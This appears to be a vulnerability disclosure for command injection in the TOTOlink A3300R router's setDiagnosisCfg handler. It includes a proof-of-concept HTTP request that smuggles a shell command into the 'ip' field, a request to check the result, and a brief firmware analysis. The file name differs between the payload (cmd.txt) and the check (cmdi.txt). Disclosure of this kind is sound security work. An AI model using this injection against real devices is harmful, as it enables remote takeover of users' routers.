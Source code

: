 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information
Device: TOTOlink A3300R<br>
Firmware Version: V17.0.0cu.557_B20221024<br>
Manufacturer's website information：https://www.totolink.net/<br>
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html<br>

## Vulnerability Description
When deal with setDiagnosisCfg request, ip parameter is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/advance/diagnosis.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"ip":"1.2.3.4`ls>/web/cmd.txt`","num":"2","topicurl":"setDiagnosisCfg"}
```

injection the command "ls>/web/cmdi.txt"

![poc1](img/poc1.jpg)

check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```

![poc2](img/poc2.jpg)

## Analyse
sub_413968 will handle the setDiagnosisCfg request. sub_413968 firstly get ip and num from request body, then pass to CsteSystem function.

![ana1](img/ana1.jpg)

CsteSystem wraps the command and then passes it to execv to execute the command.

![ana3](img/ana3.jpg)
